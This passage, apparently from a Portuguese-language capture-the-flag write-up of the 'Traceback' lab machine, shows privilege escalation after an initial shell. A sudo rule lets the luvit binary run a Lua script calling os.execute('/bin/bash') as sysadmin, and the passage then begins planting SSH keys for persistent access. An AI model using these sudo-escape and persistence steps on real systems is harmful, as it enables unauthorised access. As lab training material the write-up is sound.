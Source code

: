 ## Exploitation

    Após pegarmos shell, podemos ver que não temos acesso a flag, porém, temos uma nota no diretório do nosso usuário que foi escrita pela usuário "sysadmin".

```bash
-rw-rw-r-- 1 sysadmin sysadmin  122 Mar 16  2020 note.txt
$ cat note.txt
cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

    A nota menciona algo sobre a linguagem Lua. Se olharmos a saída de **sudo -l** vemaos as seguintes informações:

```bash
$ sudo -l
sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

    O nosso usuário tem permissão de rodar alguma coisa com os privilégios do usuário sysadmin. Pesquisando um pouco, podemos encontrar o seguinte link --> https://luvit.io/ que nos ensina mais sobre o luvit.

    Podemos usar o luvit para executar um script em lua para tentarmos elevar nosso privilégio.

> Criando arquivo Lua

```bash
echo 'os.execute("/bin/bash")' > privesc.lua
```

> Executando o script

```bash
$ sudo -u sysadmin /home/sysadmin/luvit privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
sysadmin@traceback:/home/webadmin$
```

    Com a shell elevada para o usuário sysadmin, podemos gerar um par de chaves de ssh e colocar em seu authorized_keys para podermos acessar a shell via ssh.

> Gerando ssh files

```bash
ssh-keygen -f traceback
```
